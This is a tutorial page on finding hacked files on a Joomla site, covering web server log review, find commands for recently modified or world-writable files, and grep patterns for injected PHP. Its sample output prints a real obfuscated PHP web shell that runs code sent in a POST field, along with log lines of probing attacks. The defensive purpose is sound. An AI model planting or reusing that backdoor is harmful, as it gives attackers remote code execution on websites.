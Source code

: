 ```yaml
---
description: How to find hacked Joomla files. How to analize your Joomla site to tell if it has been compromised or hacked.
---
```


## Overview

Like every popular Content Management System, there is always going to
be at risk of being attacked or hacked. This article explore some
methods to try to detect the integrity of your website.

Monitor your site regularly.

## Check web server logs

Check primarily for brute force attacks and attempts to upload
files. With Apache in Ubuntu that would tipically mean to analyze
`/var/log/apache2/access.log` and `/var/log/apache2/error.log`

For example, there is someone playing around one of my Joomla websites
trying to explode Wordpress vulnerabilities:

<pre class="shell">
<samp>
<span class="shell-prompt">/var/log/apache2/$</span> <kbd>grep POST access.log</kbd>
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:03 +0000] "POST /wp-content/themes/method/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:14 +0000] "POST /wp-content/themes/modular/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:25 +0000] "POST /wp-content/themes/myriad/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:56 +0000] "POST /wp-content/themes/persuasion/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
</samp>
</pre>

## Detect modified PHP files

You can look for PHP files that were modified recently, or after some
date you are sure didn't perform anything to the source code. 

That would show new possibly uploaded scripts or modified files with
injected code in them.

### Find files modified recently

To find recently modified files: <kbd>find /path/to/dir -type f -mtime -7 -ls</kbd>.
The `-mtime` parameter detects when file's data was last modified
*n*24* hours ago, in that case we analyze the previous 7 days.

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -type f -mtime -7 -ls</kbd>
</samp>
</pre>

### Find files modified after a specific date

List files in given directory modified after given date <kbd> find
/path/to/dir -newermt "yyyy-mm-dd"</kbd>.

> -newerXY reference
>               Compares the timestamp of the current file with reference.  The reference argument is normally the name  of  a  file
>               (and  one  of its timestamps is used for the comparison) but it may also be a string describing an absolute time.  X
>               and Y are placeholders for other letters, and these letters select which time belonging to how reference is used for
>               the comparison.
> 
>               a   The access time of the file reference
>               B   The birth time of the file reference
>               c   The inode status change time of reference
>               m   The modification time of the file reference
>               t   reference is interpreted directly as a time
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}

In this example we look for files modified with the current directory
as the base directory and modified after "2016-12-01".

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -newermt "2017-01-25" -ls</kbd>
1089538    4 drwxr-xr-x   2 marcanuy www-data     4096 Jan 25 04:13 ./website/logs
</samp>
</pre>

### Finding hacked files with pattern matching

Most of the time injected code will be obfuscated, making it harder to
look for obvious patterns, but we can try some alternatives though.

This code would be tipically inserted as the first line of the PHP
file, starting with a variable, so we can look for that pattern, first
line starting with `<?php $`:

~~~ bash
$ grep -m 1 -r '^<?php \$' .</kbd>
~~~

Output:

~~~ php
./website/components/com_users/views/profile/tmpl/default_params.php:<?php $fields = $this->form->getFieldset('params'); ?>
./website/administrator/cache/com_ajax3j/9411v11.php:<?php $coi=chr(97).chr(115)."\x73".chr(101)."\x72"."\x74";$zioj=chr(98).chr
(97)."\x73"."\x65"."\x36".chr(52)."\x5f"."\x64".chr(101)."c"."\x6f".chr(100).chr(101);$jd=chr(115)."\x74".chr(114)."\x5f"."r".chr(111)
."\x74"."1"."3";@$coi(@$zioj(@$jd($_POST[chr(100).chr(97)."t".chr(97)])));die(); ?>
~~~

First line of the output looks fine, but the second line looks a bit
more than suspicious code, we can decode it and understand what it is
doing before removing it.

## Files with wrong permissions

Check out for writable upload directories. The `find` command can be used to scan for files and folder with
permission 777.

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . -type f,d -perm 0777 -print </kbd>
</pre>

> -perm mode
>               File's  permission  bits  are  exactly  mode (octal or sym‐
>               bolic).  Since an exact match is required, if you  want  to
>               use this form for symbolic modes, you may have to specify a
>               rather complex mode string.  For example -perm  g=w  will
>               only  match  files  which have mode 0020 (that is, ones for
>               which group write permission is the only  permission  set).
>               It  is more likely that you will want to use the / or -
>               forms, for example -perm -g=w,  which  matches  any  file
>               with  group write permission.  See the EXAMPLES section for
>               some illustrative examples.
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}

Also we can choose many file types at once separating them with ','
like `-type=d,f` where `d` stands for *directory* and `f` for *files*.

Then we can modify it a bit to scan through all the 777 files on the
server and show ones with `.php` to look for uploaded scripts:

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . -name "*php" -type f -perm 777</kbd>
</pre>

## Conclusion

A lot of people recommends to install a clean backup after being
hacked, this approach will fail sooner or later because you need to
know what failed to prevent happening again.

This article covers some basic strategies for identifying compromised
files, attacks are constant with varying methods so it is important to
know commands and strategies to recover our sites and keep them safe.

## References

- <http://www.gregfreeman.io/2013/how-to-tell-if-your-php-site-has-been-compromised/>
- <https://www.bluebridgedev.com/hacked-joomla-files>
- <https://www.joomshaper.com/blog/my-joomla-site-was-hacked-what-to-do>
- <https://www.google.com/transparencyreport/safebrowsing/diagnostic/index.html>
- The Joomla Hacking Compendium <https://www.exploit-db.com/papers/15780/>
